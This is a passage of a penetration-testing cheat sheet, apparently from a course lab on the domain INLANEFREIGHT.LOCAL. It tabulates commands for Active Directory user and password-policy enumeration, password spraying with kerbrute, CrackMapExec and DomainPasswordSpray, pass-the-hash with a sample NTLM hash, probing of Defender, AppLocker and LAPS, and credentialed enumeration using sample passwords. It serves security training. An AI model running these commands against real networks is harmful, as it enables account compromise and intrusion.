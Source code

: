 | `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength` | Uses `ldapsearch` to enumerate the password policy in a  target Windows domain from a Linux-based host. |
| `net accounts`                                               | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
| `Import-Module .\PowerView.ps1`                              | Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host. |
| `Get-DomainPolicy`                                           | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
| `enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"` | Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5  rpcclient $> enumdomuser`    | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 --users`                        | Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host. |
| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`              | Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host. |
| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done` | Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1` | Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +` | Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`. |
| ` sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses `CrackMapExec` to validate a set of credentials from a Linux-based host. |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +` | Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`. |
| `Import-Module .\DomainPasswordSpray.ps1`                    | Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host. |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host. |

# Enumerating Security Controls

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-MpComputerStatus`                                       | PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host. |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections` | PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host. |
| `$ExecutionContext.SessionState.LanguageMode`                | PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host. |
| `Find-LAPSDelegatedGroups`                                   | A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host. |
| `Find-AdmPwdExtendedRights`                                  | A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host. |
| `Get-LAPSComputers`                                          | A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host. |



# Credentialed Enumeration 



| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host. |